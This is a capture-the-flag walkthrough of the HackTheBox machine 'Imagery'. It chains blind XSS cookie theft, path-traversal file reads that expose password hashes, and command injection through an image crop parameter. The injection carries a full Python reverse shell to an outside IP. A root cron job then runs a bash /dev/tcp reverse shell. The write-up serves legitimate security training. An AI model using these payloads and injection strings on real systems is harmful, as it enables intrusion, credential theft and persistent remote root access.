# HackTheBox - Imagery

In this walkthrough, I demonstrate how I obtained complete ownership of Imagery on HackTheBox


## Nmap results

```
~ ❯ nmap 10.10.11.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-26 09:00 CET
Nmap scan report for 10.10.11.88
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
8000/tcp open     http-alt

Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
```

The nmap scan reveals an open HTTP server on port 8000, which hosts the main web application.

## Initial jnteraction with the site


I go to http://imagery.htb:8000 and arrive at a webpage that serves as an online photo gallery. I create an account.


Once logged in, I can only import images. I can also view my gallery containing all the images I have imported.


In the "Gallery" section, we notice that there are several features that are not accessible to users. When we click on them, a message appears on the page: "Feature still in production."


We also see a "report bug" page; when we send a message, we receive this message: "Bug report submitted. Admin review in progress." Let's keep this page handy.

## source code analysis

Analyzing the source code reveals that an "isTestuser" feature allows you to have all the permissions that you do not have as a user on the gallery.

```
let loggedInUserIsTestUser = false;

function handleConvertImage(imageId) {
    if (!loggedInUserIsTestUser) {  // ← BLOCAGE ICI
        showMessage('Feature still in production.', 'error');
        return;
    }
...
}

function handleVisualTransformImage(imageId) {
    if (!loggedInUserIsTestUser) {  // ← BLOCAGE ICI
        showMessage('Feature still in production.', 'error');
        return;
    }
...
}

function handleMetadataDeletion(imageId) {
    if (!loggedInUserIsTestUser) {  // ← BLOCAGE ICI
        showMessage('Feature still in production.', 'error');
        return;
    }
...
}
```

We also note that the source code contains many web application endpoints, in particular

```
window.location.href = `/admin/get_system_log?log_identifier=${encodeURIComponent(logIdentifier)}.log`;
```

but when you visit the page:


We notice that the session cookie is  signed in Flask, so we have a Flask application. I use Flask unsign to to read its content.

```
~ ❯ flask-unsign --decode --cookie ".eJxNjTEOg0AMBP_iGkUKBQVVKPOK03JnwNLZh_BRRBF_TyiIUs7MSvumJL5mvJ6JekI33uPUtdSQ-JBUjPoJ2fnkILry5sVQxeZQ2evuvP0vLhcQY9mt_topDcrfD1-AJI9ZIfkWi9LxASS-L6s.aScI6Q.oXARj9tBBwOnm9vQxvWsjaam6LU"
{'displayId': 'a6b1cf62', 'isAdmin': False, 'is_impersonating_testuser': False, 'is_testuser_account': False, 'username': 'shaadi@test.com'}
```

Note that my account has the attribute 'isAdmin': False ands 'is_testuser_account': False

## XSS

Let's try some blind XSS on the bug report page to try to steal the admin cookie. The htb boxs arent connected to the internet, so we can't use a webhook to retrieve the cookie. Therefore, we'll create a Python script, cookie_stealer.py, which will handle retrieving the administrator cookie.


We launch the python script, since the page is poorly filtered, after a few attempts we find a working payload: 

```
~ ❯ python3 cookie_stealer.py                                                                              
Server running on port 8888
Waiting for requests...


[2025-11-26 16:45:19] Cookie received from 10.10.11.88
session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aScgig.dRV3pMuyzKa95CaUJdstPl-HsbM
```

Then we receive the administrator cookie

We verify that it is indeed the Admin cookie

```
~ ❯ flask-unsign --decode --cookie ".eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aScgig.dRV3pMuyzKa95CaUJdstPl-HsbM"
{'displayId': 'a1b2c3d4', 'isAdmin': True, 'is_impersonating_testuser': False, 'is_testuser_account': False, 'username': 'admin@imagery.htb'}
```

isAdmin: True, we got the admin cookie

## LFI

I modify my cookie and access the admin page and the admin panel.
Remember that earlier we had the endpoint /admin/get_system_log..., let's try a LFI. We know we have a Flask application; generally, the standard main file is app.py.

```
~ ❯ curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../app.py" \
  -H "Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aScgig.dRV3pMuyzKa95CaUJdstPl-HsbM"
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
...
from api_edit import bp_edit
...
OUTBOUND_BLOCKED_PORTS = {80, 8080, 53, 5000, 8000, 22, 21}
...
```

We have a config.py and api_edit.py files and several ports are blocked.

```
~ ❯ curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../config.py" \
  -H "Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aScgig.dRV3pMuyzKa95CaUJdstPl-HsbM"

import os
import ipaddress

DATA_STORE_PATH = 'db.json'
...
```

In config.py, we find a db.json file.

```
~ ❯ curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../db.json" \
  -H "Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aScgig.dRV3pMuyzKa95CaUJdstPl-HsbM"
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
...
    ]
...
}
```

We have the usernames and passwords for Admin and testUser, we pass the testUser password to https://md5decrypt.net/,
We get testuser@imagery.htb:iambatman


Once logged into the account, in the "Transform image" options, you can see that there is a "crop" function.


```
~ ❯ curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../api_edit.py" \
-H "Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aSdYiA.UoVmv4xBevM4CljeXqObx_HEdWM"
...
@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
...
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)

```

In /api_edit.py, we discover that the crop functionality can be used on a shell, provided that we are logged in with the usertest account. We can therefore try to obtain a reverse shell on the machine by using crop

## Reverse shell

I start by retrieving the ID of the image I uploaded earlier in /images. We'll test if our command injection actually works; we'll try to display the contents of /etc/passwd to see all the existing users on the machine and copy it into the upload/passwd.txt file.

```
~ ❯ curl "http://imagery.htb:8000/apply_visual_transform" \
  -H "Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aSgfWg.EhdL_Ig5AKi2FJsE1_OcyZ_VoXw" \
  -H "Content-Type: application/json" \
  -d '{
    "imageId": "e2456af2-720b-43f1-a5d4-93f96176c294",
    "transformType": "crop",
    "params": {
      "x": "0",
      "y": "0",
      "width": "100",
      "height": "100;cat /etc/passwd > uploads/passwd.txt #"
    }
  }'
{"message":"Image transformed successfully!","newImageId":"49721b0e-b868-4935-a185-6779016724c9","newImageUrl":"/uploads/admin/transformed/transformed_1894bca5-afdb-4160-93db-fa74dbce3a2f.png","success":true}
```

```
~ ❯ curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../uploads/passwd.txt" \
  -H "Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aSggOA.ziq5kmtcGFj5GDEaAX5fc6-LNrw"
root:x:0:0:root:/root:/bin/bash
...
web:x:1001:1001::/home/web:/bin/bash
mark:x:1002:1002::/home/mark:/bin/bash
```

We notice two interesting users: web, where we are currently located, and mark, probably the user for SSH into the machine

Now we know that our command injection works, let's list the tools installed on the machine.

```
~ ❯ curl "http://imagery.htb:8000/apply_visual_transform" \                                                   
  -H "Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aSgfWg.EhdL_Ig5AKi2FJsE1_OcyZ_VoXw" \
  -H "Content-Type: application/json" \
  -d '{
    "imageId": "e2456af2-720b-43f1-a5d4-93f96176c294",
    "transformType": "crop",
    "params": {
      "x": "0",
      "y": "0",
      "width": "100",
      "height": "100;which python3 python nc bash sh > uploads/tools.txt #"
    }
  }'
{"message":"Image transformed successfully!","newImageId":"213f8ec6-2877-4f5e-b5dd-90d9ef0f6aa8","newImageUrl":"/uploads/admin/transformed/transformed_244e11ee-b3de-4e4f-8082-500c52d302fc.png","success":true}

~ ❯ curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../uploads/tools.txt" \
  -H "Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aSggOA.ziq5kmtcGFj5GDEaAX5fc6-LNrw"
/home/web/web/env/bin/python3
/home/web/web/env/bin/python
/usr/bin/nc
/usr/bin/bash
/usr/bin/sh
```

I see here that Python is installed, so I can definitely do a reverse shell in Python. I'll use port 443 because we noticed earlier that it wasn't one of the blocked ports in app.py

```
curl "http://imagery.htb:8000/apply_visual_transform" \
  -H "Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aSrOgA.AQVIJTLKfgl_obAjYQdudgfEHL8" \
  -H "Content-Type: application/json" \
  -d '{
    "imageId": "6cb49cd5-c2de-4fce-8657-6b0a6b5f22a1",
    "transformType": "crop",
    "params": {
      "x": "0",
      "y": "0",
      "width": "100",
      "height": "100;python3 -c '\''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.11\",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])'\'' #"
    }
  }'
```

In parallel, we launch our netcat


I finally have my revshell; now I need Mark's SSH password. During my research, I noticed that the SSH connection for the user Mark uses a public key. Therefore, I will need to find Mark's password and connect from my revshell.


## Backup decryption
I started by launching linepeas on the revshell, and there I noticed a backup file in /var/backup/web_20250806_120723.zip.aes, It is zipped and encrypted with AES.


A little further on I see that a user used PyAesCrypt to encrypt the backup file.


I extract the backup to my laptop and decrypt it with a Python script found on GitHub: https://github.com/Nabeelcn25/dpyAesCrypt.py


In the unzipped backup there is a db.json file, inside which is the password of mark


Using md5 decryption, we can find the real password for mark:supersmash, I log into Mark's account and retrieve the user flag.



## Privilege escalation
with a simple sudo -l I see that we can run charcol as sudo without needing the password; that's probably where we'll be able to do our privilege escalation.


When I launch Charcol, I realize it's a backup tool. I notice there's user documentation available.

The help reveals that I can reset charcol's password with mark's password

I reset the password and launched the charcol shell


I consult the shell help documentation

Help shows all commands available in the shell. I noticed that you can add tasks to cron as root (because you're using sudo) to automate tasks. However, in my case, I can use it to force the root account to open a TCP connection to a netcat instance that I've launched locally, because thanks to `--command` I can enter bash commands. In short, I can have a **root revshell**.


I run the command `auto add --schedule "* * * * *" --command "bash -c 'bash -i >& /dev/tcp/10.10.14.11/8888 0>&1'" --name "root_shell_backdoor"`,
`--schedule "* * * * *"` This means my command runs every minute and `bash -c 'bash -i >& /dev/tcp/10.10.14.11/8888 0>&1'` open a bash revshell that redirects input/output/error to my laptop



I launch a netcat command and after a few seconds of waiting, I get my revshell and the root flag.

